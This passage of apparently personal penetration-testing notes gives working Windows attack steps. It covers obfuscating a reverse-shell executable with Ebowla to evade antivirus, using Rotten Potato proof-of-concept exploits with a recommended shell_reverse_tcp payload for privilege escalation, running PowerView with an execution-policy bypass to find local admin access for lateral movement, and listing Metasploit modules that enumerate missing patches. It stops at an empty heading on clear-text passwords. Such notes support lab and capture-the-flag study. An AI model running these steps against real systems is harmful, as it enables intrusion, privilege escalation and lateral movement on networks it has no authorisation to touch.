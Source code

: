 ### Ebowla

- https://github.com/Genetic-Malware/Ebowla.git
1. edit `genetic.config`
	- output_type = go
	- payload_type = exe
	- edit environmental vars to match target system
2. run ebowla
	- e.g. `./ebowla.py ~/storage/revshell.exe genetic.config`
3. build binary using go cross compiling script
	- e.g. `./build_x64_go.sh output/go_symmetric_10_10_14_6-5555-revshell.exe.go enc-10_10_14_6-5555-revshell.exe`


## Local Privilege Escalation Methods

## Rotten Potato

- https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/
- https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/
- https://github.com/breenmachine/RottenPotatoNG
- https://decoder.cloud/2018/01/13/potato-and-tokens/
- poc: https://github.com/decoder-it/lonelypotato
	- USE THIS ONE
	- use `windows/x64/shell_reverse_tcp` not `windows/x64/powershell_reverse_tcp` for some reason it doesn't work

### Pivot to a Less Secure Machine

- psexec laterally with the compromised user
- powerview
	- https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
	- This will query the AD server for local admin access with the current user.
	- launching powerview:
	```
	powershell -exec bypass
	import-module .\powerview.ps1
	Find-LocalAdminAccess
	```

### Enumerate Missing Patches

- metasploit modules
```
post/windows/gather/enum_patches
post/multi/recon/local_exploit_suggester
```

### Clear Text Passwords
